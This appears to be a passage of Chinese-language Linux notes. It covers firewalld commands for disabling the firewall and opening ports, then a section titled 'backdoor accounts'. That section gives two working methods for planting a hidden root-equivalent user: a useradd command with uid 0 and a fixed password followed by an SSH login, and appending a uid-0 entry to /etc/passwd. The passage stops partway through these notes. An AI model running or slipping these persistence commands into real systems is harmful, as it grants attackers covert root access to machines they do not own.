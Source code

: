 

查看状态： 

```
systemctl status firewalld
```



禁用，禁止开机启动： 

```
systemctl disable firewalld
```



停止运行： 

```
systemctl stop firewalld
```

```
firewall-cmd --list-port // 查看防火墙已经开放的端口

firewall-cmd --reload firewall-cmd --list-port // 查看防火墙已经开放的端口
```





**删除：**

```
firewall-cmd --zone=public --remove-port=80/tcp --permanent
```



**增加**

```
firewall-cmd --zone=public --add-port=5/tcp --permanent
```



## 0x00 后门账户

方法 1   添加账号 redi1s，设置 uid 为 0，密码为 123456

```plain
useradd -p `openssl passwd -1 -salt 'salt' 123456` redi1s -o -u 0 -g root -G root -s /bin/bash -d /home/test1
```

```plain
ssh redi1s@IP
```

方法 2

```plain
echo "test2:x:0:0::/:/bin/sh" >> /etc/passwd #增加超级用户账号
passwd test2 #修改 test2 的密码为 123456
```
